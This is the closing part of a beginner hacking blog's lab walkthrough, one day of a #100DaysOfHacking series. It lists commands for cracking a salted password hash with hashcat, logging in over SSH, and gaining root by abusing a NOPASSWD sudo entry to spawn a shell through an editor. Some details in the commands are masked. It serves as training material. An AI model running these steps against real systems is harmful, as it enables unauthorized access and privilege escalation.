 Crack Password: `hashcat -O -a 0 -m 20 '<salt>:<hash>' <wordlist>.txt --show`

- Note, salt first, then hashed password, used hint for wordlist.

Connect: `ssh *****@<ip> -p 2222`

PrivEsc: `sudo -*`

```
<pre class="wp-block-code">```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/*******

```
```

Escalate shell: `sudo ***`, `:!bash`, `cat /root/root.txt`

Thanks for reading and I hope you learned something from this little exercise. This is day 52 of [\#100DaysOfHacking](https://mrashleyball.com/100daysofhacking/) on the [Hackers Learning Path](https://mrashleyball.com/learning-path-for-beginner-hacker/). [Subscribe](https://go.mrash.co/newsletter) for [CyberSec](https://mrashleyball.com/starting-out-in-cyber-security/) updates or [read](https://mrashleyball.com/blog) more, happy hacking.